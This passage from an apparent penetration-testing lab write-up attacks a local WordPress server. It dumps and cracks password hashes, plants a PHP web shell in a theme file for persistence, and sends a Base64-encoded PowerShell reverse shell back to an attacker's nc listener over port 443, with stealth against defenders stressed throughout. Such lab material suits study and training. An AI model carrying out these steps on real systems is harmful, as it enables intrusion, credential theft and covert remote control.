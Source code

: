 
Now let’s retrieve the usernames and password hashes from this table with the command “select concat_ws(':', user_login, user_pass) from wp_users;”. We copy and paste them in the text file “hashes.txt” (fig. 6).
Now we can perform offline guessing on these WordPress password hashes with John the Ripper, using the command “john --format=phpass hashes.txt --wordlist=dictionary.txt”. Here PHPass is the format of the hash for WordPress. We use the same password dictionary as before for simplicity, even if we could directly use a hash dictionary, because the passwords are not salted. Using the command “john --show hashes.txt“, we can visualize the obtained cleartext passwords of the corresponding accounts (fig. 6).

# Persistance

We now need to find a method to obtain persistence on the target machine. This will allow us to maintain access to the target even if the passwords of the accounts are changed. To do so, we open a browser on the Kali machine and connect to the target's webserver on port number 8585 by entering http://10.0.2.4:8585/wordpress in the URL bar. The browser will show the home page of the WordPress site hosted on the target’s webserver. Now we click on the WordPress login page. Here we insert the obtained WordPress credentials of the “admin” user. Let’s click on “Appearance” and then “Editor”. Now search for “Theme Functions” under “Themes” on the right and click on it. Here we insert the PHP code of a simple web shell (fig. 7) and we click on “Update file”. This allows us to have access to a remote Command Prompt just by connecting to the webserver with a broswer. To do that we insert “10.0.2.4:8585/wordpress/?cmd=command” in the URL bar, but instead of “command” we can write whatever command we want. It will be very difficult for the defender to notice that there is a web shell running on his webserver, because its input and output will be hidden as common HTTPS traffic.


The following snippet of text is _rendered as italicized text_.

# Command&Control

Now we can execute arbitrary commands on the target. But we don’t have an actual shell session running on the target. Moreover, the output of the arbitrary command is not visualized correctly. So, to overcome these problems and to be even more stealthy, we should execute a reverse shell on the target. The target will see this shell session as normal outbound HTTPS traffic. Firstly, we need to obtain the PowerShell script of a reverse shell from the Web (fig. 8). Inside the script we must insert the Kali machine’s IP as well as the port number (443). Let’s call this script “ReverseShell.ps1”. Then we must convert this code in Base64. This allows us to treat the script as a URL parameter. But before doing that, we create a text file “ReverseShell.txt” with the command “echo -n "powershell.exe -EncodedCommand " > ReverseShell.txt”, where we will append the script code encoded in Base64. To encode the script and then append it we use the command: “tr -d '\n' < ReverseShell.ps1 | iconv -f ASCII -t UTF-16LE | base64 -w 0 >> ReverseShell.txt”. Now we need to write this CMD command in a form that can be written in an URL. To do that we encode the command using “hURL -U -f  ReverseShell.txt“ and we copy the output. Now we need to open a server that is listening on the port number 443 on the Kali Linux machine. Just use the command “nc -nlvp 443”. Finally, we can enter “10.0.2.4:8585/wordpress/?cmd=” in the URL bar and paste the previously copied encoded CMD command after the ‘=’ sign. The target’s webserver will now act as a client and will connect to the Kali server on port number 443. We now have a CMD shell session where we can interact with the target machine. Thus, we got a Command&Control channel over HTTPS.

Interesting observation: We executed all the attack steps without the need for the Administrator to physically log on the target.
